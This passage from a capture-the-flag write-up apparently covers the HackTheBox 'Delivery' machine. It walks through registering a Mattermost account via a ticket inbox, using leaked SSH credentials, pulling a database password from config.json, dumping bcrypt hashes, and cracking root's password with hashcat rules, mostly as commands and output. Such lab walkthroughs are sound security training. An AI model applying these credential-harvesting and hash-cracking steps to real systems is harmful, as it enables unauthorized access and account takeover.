

Now when I used an unregistered email address, I did not get the `Account confirmation required` error message & I was able to view the ticket thread.



Now that I can view the ticket thread, any mail the `8830415@delivery.htb` receives can be seen here in the ticket thread. So, I went ahead to register `8830415@delivery.htb` on the `MatterMost Server` web page.




After hitting the `Create Account` button, I got redirected to a page which stated to check the inbox for the confirmation email. I went back to the ticket thread page & refreshed it to see if I received the mail or not.



Fortunately, I did receive the confirmation mail & was able to view it in the thread. I copied the confirmation link & pasted it in the browser to confirm the registration of the domain email.



I receive the `Email Verified` message on the `MatterMost` login page. I logged in with the password I created for the domain email. It asked me to join a team & there was only 1 team being displayed on the web page, so I decided to go with it.



As soon as I joined the team, I got redirected to the chat of the team.



An interesting thing to note on the chat page was that the `root` user had posted 2 messages out of which one revealed the credentials to the maildeliverer user on the server with the password of `Youve_G0t_Mail!`. I quickly added it to `creds.txt` file on my local machine.

```
echo 'maildeliverer:Youve_G0t_Mail!' > creds.txt
```

Another interesting thing the `root` user mentioned in the chat was that they have been using variations of `PleaseSubscribe!` & he/she also mentioned that an attacker can easily crack all variations of the password string using hashcat rules. The password string looked quite familiar to me, as this is a string that `IPPSec` uses a lot in his videos. So, I went to check who was the owner of the box, it turned out to be `ippsec` indeed.


I took note of the password string they have been using variants of so that I can try to crack the password hashes for the password string's variations if it comes to it. For now, I have the password for the user `maildeliverer`, so I tried to login to `SSH` using these set of credentials.

## Post Exploitation as the maildeliverer user

```
ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ wc -c user.txt
33 user.txt
maildeliverer@Delivery:~$
```

And just like that, I was able to retrieve the user flag. I tried to see what other users exist on the box.

```
maildeliverer@Delivery:~$ cat /etc/passwd | grep -i 'bash\|sh'
root:x:0:0:root:/root:/bin/bash
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
```

There was only one user other than the `maildeliverer` user, the `mattermost` user. What I needed here was the password hash for the `mattermost` user. But before I try to do that, I tried to see if the user `maildeliverer` has any sudo privileges.

```
maildeliverer@Delivery:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for maildeliverer: 
Sorry, user maildeliverer may not run sudo on Delivery.
```

Unfortunately, but as expected, the user `maildeliverer` did not have any sudo privileges. So, I went ahead to try to retrieve the password hash for the `mattermost` user. I started with listing the active ports in use on the host.

```
maildeliverer@Delivery:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          127.0.0.1:60952         ESTABLISHED
tcp        0      0 127.0.0.1:60950         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60956         ESTABLISHED
tcp        0      0 127.0.0.1:60952         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:60944         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:60948         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60948         ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60958         ESTABLISHED
tcp        0      0 127.0.0.1:60958         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:60954         127.0.0.1:3306          ESTABLISHED
tcp        0    208 10.129.91.210:22        10.10.17.235:58582      ESTABLISHED
tcp        0      0 127.0.0.1:60946         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60954         ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60950         ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60946         ESTABLISHED
tcp        0      0 127.0.0.1:60956         127.0.0.1:3306          ESTABLISHED
tcp        0      0 127.0.0.1:3306          127.0.0.1:60944         ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 ::1:631                 :::*                    LISTEN
tcp6       0      0 :::8065                 :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 10.129.91.210:8065      10.10.17.235:41174      TIME_WAIT
tcp6       0      0 10.129.91.210:8065      10.10.17.235:44526      ESTABLISHED
tcp6       0      0 10.129.91.210:8065      10.10.17.235:47636      ESTABLISHED
```

There was an interesting port which could be useful for me, TCP port `3306`. So, I went ahead to take a look at the `mysql` service to try to retrieve the password hash for the `mattermost` user.

```
maildeliverer@Delivery:~$ mysql -u maildeliverer -p
Enter password: 
ERROR 1698 (28000): Access denied for user 'maildeliverer'@'localhost'
```

Unfortunately, the user `maildeliverer` did not have access to the `mysql` service. I was lost here, cause I knew that I needed to find the password hash for the `mattermost` user, what I did not know was how could I find it if not using `mysql` service. I went ahead & tried to search for the configuration file for the `MatterMost Server`, since it must contain the credentials with which I can login to the `mysql` service to try to retrieve the password hash.

```
maildeliverer@Delivery:/dev/shm$ cd /opt
maildeliverer@Delivery:/opt$ ls
mattermost               
maildeliverer@Delivery:/opt$ cd mattermost/
maildeliverer@Delivery:/opt/mattermost$ ls
bin     config  ENTERPRISE-EDITION-LICENSE.txt  i18n  manifest.txt  plugins              README.md
client  data    fonts                           logs  NOTICE.txt    prepackaged_plugins  templates
maildeliverer@Delivery:/opt/mattermost$ cd config
maildeliverer@Delivery:/opt/mattermost/config$ ls                                                                                       
cloud_defaults.json  config.json  README.md
maildeliverer@Delivery:/opt/mattermost/config$ head -n 147 config.json
{
    [...snip...]
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

## Cracking root user's password

And I was able to find the credentials which I can use to exploit the mysql service to get the password hash for the `mattermost` user.

```
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 146
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.000 sec)

MariaDB [mattermost]> desc Users;
+--------------------+--------------+------+-----+---------+-------+
| Field              | Type         | Null | Key | Default | Extra |
+--------------------+--------------+------+-----+---------+-------+
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)

MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| test                             | $2a$10$jNIc1KxPX9kDXM5DfWf3YOpOOnIzLhbwC.FgPHBtz4liZGyLGTd/2 |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)


```

Finally, I was able to retrieve the password hash for the `root` user (of the web application, not the host), which should the `mattermost` user as the username credential for the mysql service was `mmuser`, which implies `Matter Most (mm) User`. I first created a password file on my virtual machine which would (or should) contain the potential password for the `root` user or the `mattermost` user.

```
echo 'PleaseSubscribe!' > pw_string.txt
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout pw_string.txt > passwords.txt
wc -l passwords.txt
77 passwords.txt
```

Interstingly, the `passwords.txt` file contained 77 unique password variations of the password string I passed in, which shouldn't be the case as there should be only 64 unique rules in the `best64.rule` file which comes pre loaded with hashcat. Anyways, I didn't dwell too much on it & moved on to password cracking. Now that I have both, the password hash & the `passwords.txt` file, I just needed the type of hash, which seemed a lot like `BCrypt Hash`.

```
hashid hashes.txt 
--File 'hashes.txt'--
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'hashes.txt'--
hashcat -hh | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

I decided to go with the `3200` mode for the hash type using hashcat.

```
hashcat -m 3200 hashes.txt passwords.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-14650HX, 4906/9877 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 77
* Bytes.....: 1177
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Wed Oct 28 00:19:13 2026 (1 sec)
Time.Estimated...: Wed Oct 28 00:19:14 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      130 H/s (1.13ms) @ Accel:16 Loops:4 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 77/77 (100.00%)
Rejected.........: 0/77 (0.00%)
Restore.Point....: 0/77 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe! -> PeSubs
Hardware.Mon.#1..: Util:  7%

Started: Wed Oct 28 00:18:54 2026
Stopped: Wed Oct 28 00:19:15 2026
```

It cracked the hash in no time, & the password came out to be `PleaseSubscribe!21`. I, then, tried to switch to the `mattermost` user using the password hashcat cracked.

```
maildeliverer@Delivery:/opt/mattermost/config$ su mattermost
Password: 
su: Authentication failure
```

However, I was not able to login as the `mattermost` user using the password hashcat cracked. So, I went ahead to see if it was the password for the user `root` instead.

```
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password: 
root@Delivery:/opt/mattermost/config# wc -c /root/root.txt
33 /root/root.txt
```

Interestingly enough, it was indeed the `root` user's password. And just like that, I was able to get the root flag as well.

